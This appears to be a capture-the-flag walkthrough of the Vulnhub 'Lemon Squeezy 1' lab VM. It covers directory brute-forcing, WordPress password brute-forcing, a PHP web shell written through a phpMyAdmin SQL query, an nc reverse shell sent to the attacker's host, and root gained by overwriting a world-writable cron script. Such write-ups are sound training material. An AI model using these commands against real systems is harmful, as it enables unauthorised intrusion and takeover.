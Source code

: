 +++
title = "Vulnhub: Lemon Squeezy 1"
date = "2021-04-13"
author = ""
authorTwitter = "" #do not include @
tags = ["Beginner", "Vulnhub", "OSCP Prep", "Directory Bruteforce", "ffuf", "WordPress", "WPScan", "PHPMyAdmin", "Cron"]
keywords = ["", ""]
description = ""
showFullContent = false
cover = "/img/lemonsqueezy1/lemon.png"
+++



| Difficulty | Release Date | Author |
| ---------- | ------------ | ------ |
| Beginner | 26 Apr 2020 | James Hay | 

# Summary

For this box we only get one port running a web server and we discover wordpress and phpmyadmin by directory bruteforcing. 
On the wordpress application we bruteforce credentials of the users discovered and then discover more credentials stored
in a draft post. With this new credentials we access phpmyadmin and write to a file using an sql query. This serves
as our initial foothold and we then escalate privileges by abusing a cron job running as root that executes a world writeable 
script.

# Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.191.134
Host is up (0.00014s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 00:0C:29:FF:26:DE (VMware)
```
# Enumeration

## 80 (HTTP)

Visiting this page on the browser only serves the apache default page, confirming what nmap found in title.

After performing a directory bruteforce using ffuf we get the following directories:

```sh
ffuf -ic -c -u 'http://192.168.191.134/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -t 50
```

{{< image src="/img/lemonsqueezy1/lemon-1.png" alt="" position="center" style="border-radius: 8px;" >}}

Checking the /wordpress directory, we see a basic wordpress site with not much information.

{{< image src="/img/lemonsqueezy1/lemon-2.png" alt="" position="center" style="border-radius: 8px;" >}}

Performing enumeration using wpscan, the only interesting information gathered is the usernames.

```sh
wpscan --url http://lemonsqueezy/wordpress -e ap,at,tt,cb,dbe,u -o wpscan.out --api-token
```

{{< image src="/img/lemonsqueezy1/lemon-3.png" alt="" position="center" style="border-radius: 8px;" >}}

Bruteforcing the credentials for each user, we discover the password of the orange user.

```sh
wpscan --url http://lemonsqueezy/wordpress -U orange -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt
```

{{< image src="/img/lemonsqueezy1/lemon-4.png" alt="" position="center" style="border-radius: 8px;" >}}

After logging into wordpress with the discovered credentials **orange:ginger**, we find another password in drafts.

{{< image src="/img/lemonsqueezy1/lemon-5.png" alt="" position="center" style="border-radius: 8px;" >}}

With this password, we are able to login to phpmyadmin as the orange user.

{{< image src="/img/lemonsqueezy1/lemon-6.png" alt="" position="center" style="border-radius: 8px;" >}}

Successful login:

{{< image src="/img/lemonsqueezy1/lemon-7.png" alt="" position="center" style="border-radius: 8px;" >}}

By logging in we can abuse this access by writing a file to disk that contains php by using an sql statement.

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/wordpress/shell.php" 
```

{{< image src="/img/lemonsqueezy1/lemon-8.png" alt="" position="center" style="border-radius: 8px;" >}}

We can then verify that we have successful command execution, by running the whoami command.

{{< image src="/img/lemonsqueezy1/lemon-9.png" alt="" position="center" style="border-radius: 8px;" >}}

# Shell as www-data

Running the below curl command we are able to get a reverse shell:

```sh
curl "http://192.168.191.134/wordpress/shell.php?cmd=nc+-e+/bin/bash+192.168.191.1+9000+%26"
```

{{< image src="/img/lemonsqueezy1/lemon-10.png" alt="" position="center" style="border-radius: 8px;" >}}

After performing some manual local enumeration, we discover a cron job running as root. 

{{< image src="/img/lemonsqueezy1/lemon-11.png" alt="" position="center" style="border-radius: 8px;" >}}

The script being executed in the cron job is world writeable and the www-data user can write to it.

{{< image src="/img/lemonsqueezy1/lemon-12.png" alt="" position="center" style="border-radius: 8px;" >}}


# Shell as root

After changing the script to the below command we can create a bash binary with suid permissions.

```sh
#!/bin/bash
cp /bin/bash /suidbash
chmod u+s /suidbash
```

{{< image src="/img/lemonsqueezy1/lemon-13.png" alt="" position="center" style="border-radius: 8px;" >}}

Once the cron is executed we get the binary and can escalate to root shell and read root.txt.

```sh
./suidbash -p
```

{{< image src="/img/lemonsqueezy1/lemon-14.png" alt="" position="center" style="border-radius: 8px;" >}}

# Extras

 - It seems I forgot user.txt and it is in /var/www.

{{< image src="/img/lemonsqueezy1/lemon-15.png" alt="" position="center" style="border-radius: 8px;" >}}

- We could write to the wordpress folder from phpmyadmin because it was world-writeable.

{{< image src="/img/lemonsqueezy1/lemon-16.png" alt="" position="center" style="border-radius: 8px;" >}}

